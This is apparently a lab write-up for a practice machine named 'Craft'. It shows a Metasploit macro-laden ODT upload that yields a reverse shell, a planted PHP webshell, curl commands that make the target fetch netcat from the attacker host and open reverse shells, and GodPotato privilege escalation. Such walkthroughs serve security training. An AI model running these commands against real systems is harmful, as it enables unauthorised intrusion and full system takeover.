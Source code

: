 # Craft

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.169
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 23:30 +08
Nmap scan report for 192.168.197.169
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

### OpenOffice Macros --> Shell

The HTTP site was a Lorem Ipsum website:

<figure><img src="../../../.gitbook/assets/image (1837).png" alt=""><figcaption></figcaption></figure>

If we scroll down, we can see that there is a file upload for our 'resume'.

<figure><img src="../../../.gitbook/assets/image (3098).png" alt=""><figcaption></figcaption></figure>

I tried to upload an image, and this triggered an error:

<figure><img src="../../../.gitbook/assets/image (686).png" alt=""><figcaption></figcaption></figure>

An ODT file is similar to a Microsoft Word document, which can be created using `libreoffice`. Seeing that we can only upload ODT files, this machine might have a script opening the files and being able to trigger some macros embedded within the file.&#x20;

We can use `msfconsole` to generate this file:

```
msf6 exploit(multi/misc/openoffice_document_macro) > set LHOST tun0
LHOST => 192.168.45.197
msf6 exploit(multi/misc/openoffice_document_macro) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/misc/openoffice_document_macro) > 
[*] Started reverse TCP handler on 192.168.45.197:4444 
[*] Using URL: http://192.168.45.197:8080/HugvG5t95RCfjWq
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic/Standard
[*] Packaging file: Basic/Standard/Module1.xml
[*] Packaging file: Basic/Standard/script-lb.xml
[*] Packaging file: Basic/script-lc.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2/accelerator
[*] Packaging file: Configurations2/accelerator/current.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/META-INF
[*] Packaging file: META-INF/manifest.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Thumbnails
[*] Packaging file: Thumbnails/thumbnail.png
[*] Packaging file: content.xml
[*] Packaging file: manifest.rdf
[*] Packaging file: meta.xml
[*] Packaging file: mimetype
[*] Packaging file: settings.xml
[*] Packaging file: styles.xml
[+] msf.odt stored at /home/kali/.msf4/local/msf.odt
```

Afterwards, we can upload this file to the machine and wait for the script to open it:

```
[*] 192.168.197.169  openoffice_document_macro - Sending payload
[*] Command shell session 1 opened (192.168.45.197:5555 -> 192.168.197.169:49737) at 2023-07-05 23:39:11 +0800
msf6 exploit(multi/misc/openoffice_document_macro) > sessions

Active sessions
===============

  Id  Name  Type               Information                    Connection
  --  ----  ----               -----------                    ----------
  1         shell x64/windows  Shell Banner: Microsoft Windo  192.168.45.197:5555 -> 192.16
                               ws [Version 10.0.17763.2029]   8.197.169:49737 (192.168.197.
                               -----                          169)

```

Resume this sesison to drop into our shell:

<figure><img src="../../../.gitbook/assets/image (955).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Apache User Shell

When checking the users present, we can see that there's an `apache` user:

```
 Directory of C:\Users

07/13/2021  03:35 AM    <DIR>          .
07/13/2021  03:35 AM    <DIR>          ..
05/28/2021  03:53 AM    <DIR>          Administrator
02/17/2023  03:36 PM    <DIR>          apache
05/28/2021  03:53 AM    <DIR>          Public
02/17/2023  03:36 PM    <DIR>          thecybergeek
```

The next step might be to get a shell as this user. Since there's a website being hosted on the machine, we can start there. I found that we can write to the webroot folder:

```
 Directory of C:\xampp\htdocs

07/13/2021  03:18 AM    <DIR>          .
07/13/2021  03:18 AM    <DIR>          ..
07/13/2021  03:18 AM    <DIR>          assets
07/13/2021  03:18 AM    <DIR>          css
07/07/2021  10:53 AM             9,635 index.php
07/13/2021  03:18 AM    <DIR>          js
07/07/2021  09:56 AM               835 upload.php
07/05/2023  08:38 AM    <DIR>          uploads
               2 File(s)         10,470 bytes
               6 Dir(s)  10,492,981,248 bytes free

C:\xampp\htdocs>echo hello > hello.txt
echo hello > hello.txt
```

As such, we can drop a `cmd.php` webshell within this file and verify that we have RCE as `apache`:

```
$ curl http://192.168.197.169/cmd.php?cmd=whoami
craft\apache
```

We can then download `nc64.exe` onto the machine and get a shell as `apache`:

{% code overflow="wrap" %}
```
$ curl -G --data-urlencode 'cmd=powershell -c wget 192.168.45.197/nc64.exe -Outfile C:/Windows/Tasks/nc.exe' http://192.168.197.169/cmd.php

$ curl -G --data-urlencode 'cmd=C:/Windows/Tasks/nc.exe -e cmd.exe 192.168.45.197 21' http://192.168.197.169/cmd.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3938).png" alt=""><figcaption></figcaption></figure>

### SeImpersonatePrivilege

This user has the `SeImpersonatePrivilege` enabled:

```
C:\xampp\htdocs>whoami /priv 
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We can use `godpotato.exe` to exploit this:

{% code overflow="wrap" %}
```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.197 21"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2055).png" alt=""><figcaption></figcaption></figure>

Rooted!

